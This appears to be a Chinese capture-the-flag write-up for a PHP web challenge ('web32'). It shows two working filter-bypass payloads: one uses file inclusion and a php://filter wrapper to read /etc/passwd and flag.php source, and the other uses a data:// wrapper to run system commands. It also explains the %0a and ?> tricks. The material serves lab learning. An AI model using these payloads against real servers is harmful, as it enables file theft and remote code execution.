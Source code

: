 ### 方法一：php://伪协议读取文件

构造文件包含：`?c=$b=include%0a$_GET["a"]?>&a=/etc/passwd`

- 然后是%0a作用，这是url回车符，因为空格被过滤。事实上，删去也无所谓，似乎php会自动给字符串和变量间添加空格（经检验，只在eval中有效，echo中无效，还是得要空格）
- 后面的?>的作用是作为绕过分号，作为语句的结束。原理是：php遇到定界符关闭标签会自动在末尾加上一个分号。简单来说，就是php文件中最后一句在?>前可以不写分号。

文件包含利用：php伪协议读取源码 `php://filter/read=convert.base64-encode/resource=flag.php`

![web32_flag](./image/web32_flag.png)

### 方法二：data://伪协议构造rce

文件包含利用伪协议实现命令执行：`?c=$b=include$_GET[%22a%22]?%3E&a=data://text/plain,<?php+system("ls")?>`

使用的伪协议data://text/plain,明文

![web32_data](./image/web32_data.png)


[ERROR]: could not find driver